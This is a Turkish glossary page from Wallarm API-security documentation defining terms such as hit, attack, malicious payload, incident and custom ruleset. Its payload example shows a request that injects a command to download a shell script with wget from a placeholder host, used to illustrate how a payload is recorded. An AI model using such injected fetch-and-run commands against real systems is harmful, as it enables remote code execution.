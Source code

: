 # Sözlük

Sözlük, platformu daha iyi anlamanız için çekirdek Wallarm öğelerini kapsar.

## Hit

Hit, serileştirilmiş kötü niyetli bir istektir (filtreleme düğümü tarafından eklenen orijinal kötü niyetli istek ve metadata), örneğin:

![Hit örneği](images/user-guides/events/analyze-attack-raw.png)

[Hit parametreleri hakkında ayrıntılar](user-guides/events/analyze-attack.md#analyze-requests-in-an-event)

## Saldırı

Bir saldırı, aşağıdaki özelliklere göre gruplandırılan tek bir hit veya birden fazla hittir:

* Aynı saldırı türü, kötü niyetli yük taşıyan parametre ve hit'lerin gönderildiği adres. Hit'ler aynı veya farklı IP adreslerinden gelebilir ve bir saldırı türü içinde kötü niyetli yüklerin farklı değerlerine sahip olabilir.

    Bu hit gruplama yöntemi temeldir ve tüm hit'lere uygulanır.
* Uygun [tetikleyici](user-guides/triggers/trigger-examples.md#group-hits-originating-from-the-same-ip-into-one-attack) etkinleştirildiyse aynı kaynak IP adresi. Diğer hit parametre değerleri farklı olabilir.

    Bu hit gruplama yöntemi, Brute force, Forced browsing, BOLA (IDOR), Resource overlimit, Data bomb ve Virtual patch saldırı türlerindeki hit'ler dışında tüm hit'ler için çalışır.

    Hit'ler bu yöntemle gruplandırıldığında, saldırı için [**Yanlış pozitif olarak işaretle**](user-guides/events/false-attack.md#mark-an-attack-as-a-false-positive) düğmesi ve [aktif doğrulama](about-wallarm/detecting-vulnerabilities.md#active-threat-verification) seçeneği kullanılamaz.

Belirtilen hit gruplama yöntemleri birbirini dışlamaz. Hit'lerin her iki yöntemin özelliklerine sahip olması durumunda, hepsi tek bir saldırıya gruplandırılır.

Tek bir hit içeren bir saldırının örneği:

![Tek hit'li saldırı](images/glossary/attack-with-one-hit-example.png)

Birçok hit içeren bir saldırının örneği:

![Birçok hit'li saldırı](images/glossary/attack-with-several-hits-example.png)

## Kötü Niyetli Yük

Aşağıdaki öğeleri içeren orijinal bir istemin bir parçası:

* Bir istekte tespit edilen saldırı işaretleri. Bir istekte aynı saldırı türünü karakterize eden birkaç saldırı işareti tespit edilirse, sadece ilk işaret yüke kaydedilir.
* Saldırı işaretinin bağlamı. Bağlam, tespit edilen saldırı işaretlerinin önünde ve sonunda bulunan bir sembol setidir. Bir yük uzunluğu sınırlı olduğundan, bir saldırı işareti tam yük uzunluğunda ise bağlam atlanabilir.

Örneğin:

* İstek:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* Kötü niyetli yük:

    ```bash
    ;wget+http://s
    ```

    Bu yükte, `;wget+` [RCE](attacks-vulns-list.md#remote-code-execution-rce) saldırı işareti ve yükün diğer parçası saldırı işaretinin bağlamıdır.

Saldırı işaretleri [davranışsal saldırıları](about-wallarm/protecting-against-attacks.md#behavioral-attacks) tespit etmek için kullanılmadığından, davranışsal saldırıların bir parçası olarak gönderilen isteklerin boş yükleri vardır.

## Güvenlik Zaafı
Bir güvenlik zaafı, bir web uygulamasını oluştururken veya uygularken ihmalkarlık veya yetersiz bilgi nedeniyle yapılan bir hata olup bilgi güvenliği riskine yol açabilir.

Bilgi güvenliği riskleri:

* Yetkisiz veri erişimi; örneğin, kullanıcı verilerini okuma ve değiştirme erişimi.
* Hizmeti reddetme.
* Veri bozulması ve diğerleri.

Internet trafiği, Wallarm'ın diğer fonksiyonlarının yanı sıra güvenlik zaafiyetlerini tespit etmek için kullanılabilir.

## Güvenlik Olayı

Bir güvenlik olayı, bir güvenlik zaafiyetinin sömürülmesi olayıdır. Bir olay, doğrulanmış bir güvenlik zaafiyetine yönelik bir [saldırı](#attack)'dır.

Bir olay, tıpkı bir saldırı gibi, sisteminizin dışında bir varlık ve dış İnternet'in, sistemin kendisinin değil, bir özelliğidir. Var olan güvenlik zaafiyetlerine yönelik saldırılar azınlık olsa da, bilgi güvenliği açısından son derece önemlidirler. Wallarm var olan güvenlik zaafiyetlerine yönelik saldırıları otomatik olarak tespit eder ve bunları ayrı bir obje - olay - olarak görüntüler.

## Dairesel Tampon
Dairesel tampon, uçtan uca bağlıymış gibi sabit boyutlu tek bir tampon kullanarak veri yapısıdır. 
[Wikipedia'ya bakın](https://en.wikipedia.org/wiki/Circular_buffer).

## Özel kural seti (eski terim LOM)

Bir özel kural seti, Wallarm düğümlerinin Wallarm Bulutu'ndan indirdiği derlenmiş güvenlik kurallarının bir setidir.

Özel kurallar, trafik işleme için bireysel kurallar ayarlamanıza olanak sağlar, örneğin:

* Hassas verileri Wallarm Bulutu'na yüklemeden önce maskele
* RegExp tabanlı saldırı göstergeleri oluştur
* Aktif bir güvenlik zaafiyetini sömüren istekleri engelleyen bir sanal yamayı uygula
* Belirli isteklerde saldırı tespitini devre dışı bırak, vb.

Bir özel kural seti varsayılan olarak boş değildir, Bulut'ta kayıtlı tüm müşteriler için oluşturulan kuralları içerir, örneğin [**Ayarlar → Genel** sekmesinde](user-guides/settings/general.md) değeri olan filtreleme modu kuralı.

[Özel kural setleri hakkında daha fazla ayrıntı](user-guides/rules/rules.md)

## Geçersiz İstek
Filtre düğümü tarafından kontrol edilen ve LOM kurallarına uymayan bir istek.

## Ters Proxy
Bir ters proxy, kaynakları bir sunucudan bir istemci adına alıp istemciye kaynakları, sanki kaynaklar Web sunucusundan geliyormuş gibi geri döndüren bir proxy sunucusu tipidir.
[Wikipedia'ya bakın](https://en.wikipedia.org/wiki/Reverse_proxy).

## Sertifika Yetkilisi
Bir sertifika yetkilisi, dijital sertifikalar veren bir varlıktır.
[Wikipedia'ya bakın](https://en.wikipedia.org/wiki/Certificate_authority).